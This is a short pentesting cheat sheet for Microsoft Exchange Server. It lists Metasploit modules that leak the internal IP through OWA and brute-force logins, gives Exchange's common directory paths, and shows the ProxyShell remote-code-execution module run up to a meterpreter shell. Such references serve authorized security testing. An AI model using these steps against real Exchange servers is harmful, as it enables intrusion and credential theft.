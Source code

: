 ```yaml
---
title: Microsoft Exchange Server Pentesting
description: Microsoft Exchange Server is a mail server and calendaring server developed by Microsoft.
tags:
    - Microsoft
    - Web
refs:
    - https://learn.microsoft.com/en-us/exchange/architecture/architecture?view=exchserver-2019
date: 2023-04-23
draft: false
---
```


## Enumeration

### OWA (Outlook Web Access)

```bash
msfconsole
# Client Access Server (CAS) IIS HTTP Internal IP Disclosure
msf> use auxiliary/scanner/http/owa_iis_internal_ip
# Brute Force credentials
msf> use auxiliary/scanner/http/owa_login
```

<br />

## Common Directories

```bash
# Autodiscover service
/autodiscover/
/autodiscover/autodiscover.xml
# Enhanced Client or Proxy
/ecp/
# Exchange Web Services
/ews/
# Offline Address Books
/oab/
# Outlook Web Access
/owa/
/owa/auth/login.aspx
```

<br />

## ProxyShell RCE

CVE-2021-31207, CVE-2021-34523, CVE-2021-34473
Reference: [https://www.rapid7.com/db/modules/exploit/windows/http/exchange_proxyshell_rce/](https://www.rapid7.com/db/modules/exploit/windows/http/exchange_proxyshell_rce/)

```bash
msfconsole
msf> use exploit/windows/http/exchange_proxyshell_rce
msf> (set options...)
msf> exploit
meterpreter> shell
```
